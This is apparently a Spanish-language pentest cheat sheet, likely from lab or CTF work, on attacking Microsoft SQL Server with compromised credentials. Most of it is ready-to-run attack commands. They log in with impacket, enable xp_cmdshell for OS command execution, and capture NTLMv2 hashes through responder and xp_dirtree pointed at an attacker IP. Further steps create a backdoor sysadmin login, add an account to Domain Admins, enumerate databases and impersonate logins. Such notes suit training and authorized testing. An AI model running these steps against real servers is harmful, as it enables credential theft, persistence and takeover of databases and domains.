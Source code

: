 # MICROSOFT SQL SERVER ATTACKS

- Cuando logramos comprometer credenciales de un usuario de SQL Server, podemos realizar ataques adicionales para obtener acceso a la base de datos o ejecutar comandos en el servidor SQL.

## Vectores de ataque

- **SQL Injection**: Si la aplicación web es vulnerable a inyecciones SQL, podemos utilizar esta vulnerabilidad para ejecutar comandos SQL arbitrarios y obtener acceso a la base de datos.

- **SQLCMD**: Herramienta de línea de comandos para interactuar con SQL Server. Permite ejecutar consultas SQL y scripts.

- **xp_cmdshell**: Procedimiento almacenado que permite ejecutar comandos del sistema operativo desde SQL Server. Si está habilitado, podemos ejecutar comandos de Windows directamente desde SQL Server.

### Acceso mediante impacket e intento de RCE

- `impacket-mssqlclient manager.htb/operator:operator@manager.htb -windows-auth`
- Enumerar directorios: `SQL (MANAGER\Operator  guest@master)> xp_dirtree`

#### Habilitar xp_cmdshell
- `EXEC sp_configure 'show advanced options', 1;`
- `RECONFIGURE;`
- `EXEC sp_configure 'xp_cmdshell', 1;`
- `RECONFIGURE;`
- Entonces ahora: `EXEC xp_cmdshell 'whoami';`


#### Exfiltrar NTLMv2-SSP
- `sudo responder -I tun0`
- `xp_dirtree \\10.10.14.34\share`

#### Crear persistencia en MSSQL
- Crear un nuevo usuario con privilegios:
    ```sql
    CREATE LOGIN [pwned] WITH PASSWORD = 'pass';
    CREATE USER [pwned] FOR LOGIN [pwned];
    EXEC sp_addsrvrolemember 'pwned', 'sysadmin';
    ```
- Verificar el acceso:
    ```sql
    SELECT SYSTEM_USER, USER_NAME();
    ```
- `EXEC xp_cmdshell 'net group "Domain Admins" manager\operator /add /domain';`

## Enumerar DBs
- `enum_db`
- USE `<db>`: Cambiar de base de datos
- `SELECT name FROM sys.tables;`
- `SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('dbo.<table>');`
- `SELECT COLUMN_NAME, DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '<table>>';`
- `SELECT TABLE_SCHEMA, COLUMN_NAME, DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'sysauth';`
- `SELECT * FROM dbo.<table>;`




## Impersonar credenciales
- `enum_impersonate`: esto te va a dar posibles usuarios que podemos impersonar

```

execute as   database   permission_name   state_desc   grantee          grantor          
----------   --------   ---------------   ----------   --------------   --------------   
b'LOGIN'     b''        IMPERSONATE       GRANT        HAERO\services   hrappdb-reader   

``` 

- `EXECUTE AS LOGIN = 'hrappdb-reader';`
- `SELECT SYSTEM_USER;`: Para chequear

```

SQL (hrappdb-reader  guest@master)> SELECT SYSTEM_USER;
[%] SELECT SYSTEM_USER;
                 
--------------   
hrappdb-reader   
```




#### Herramientas utiles
- Impacket
- PowerUpSQL
- Metasploit `exploit/windows/mssql/mssql_payload`